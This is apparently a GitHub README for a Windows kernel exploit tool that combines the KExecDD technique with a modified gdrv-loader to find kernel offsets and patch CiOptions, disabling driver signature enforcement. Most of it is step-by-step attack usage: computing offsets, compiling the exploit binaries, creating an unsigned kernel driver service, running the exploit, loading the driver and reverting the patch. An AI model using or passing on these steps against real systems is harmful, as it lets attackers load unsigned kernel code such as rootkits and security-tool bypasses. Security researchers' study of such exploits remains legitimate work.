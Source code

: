 # KexecDD-gdrv-loader
This is the same KExecDD exploit (https://github.com/floesen/KExecDD).

Rather than having to find the correct NTOSKRNL_WRITE_GADGET and CI_OPTIONS using a debugger for Kernel debugging on the target system, this comes together with a modified version of https://github.com/v1k1ngfr/gdrv-loader to calculate these offsets on the target system. A lot of the `gdrv-loader` code base is left untouched and not really needed.

Note: the stubs for `nt!FsRtlInitializeFileLock` and `ci!CiInitialize` might change in newer versions which might break the offset calculation.
This has been tested on a Windows 10 (Build 19045.4191).

This will cause byod if ran on a system with Virtualization-based Security (VBS) (https://learn.microsoft.com/en-us/windows-hardware/design/device-experiences/oem-vbs) enabled.

## Usage

Compile the offsets project and execute the exe on the target system. Get the offsets returned and copied them into the `kexecdd/dllmain.c` and `kexecdd/dllmain_restore.c`:

```
offsets.exe

> Offset CiOptions: 000000000003A478

> Offset asm mov:   0000000000201852
```

Compile the `loader.c`, `dllmain.c` and `dllmain_restore.c` using the x64 Native Tools Command Prompt:

```
cl.exe /nologo /MT /Ox /W0 /GS- /DNDEBUG loader.c /link Advapi32.lib /OUT:exploit.exe /SUBSYSTEM:CONSOLE /MACHINE:x64
cl.exe /LD /nologo /MT /Ox /W0 /GS- /DNDEBUG dllmain.c /link /OUT:exploit.dll /SUBSYSTEM:CONSOLE /MACHINE:x64
cl.exe /LD /nologo /MT /Ox /W0 /GS- /DNDEBUG dllmain_restore.c /link /OUT:restore.dll /SUBSYSTEM:CONSOLE /MACHINE:x64
```

Create the unsigned driver service:

```
sc create unsigned type= kernel binPath= C:\path_to\unsigned.sys
```

Run the exploit:

```
exploit.exe
```

Load the unsigned driver:

```
sc start unsigned
```

Revert the kernel memory patch:

```
exploit.exe 6
```

## More information

Coming soon
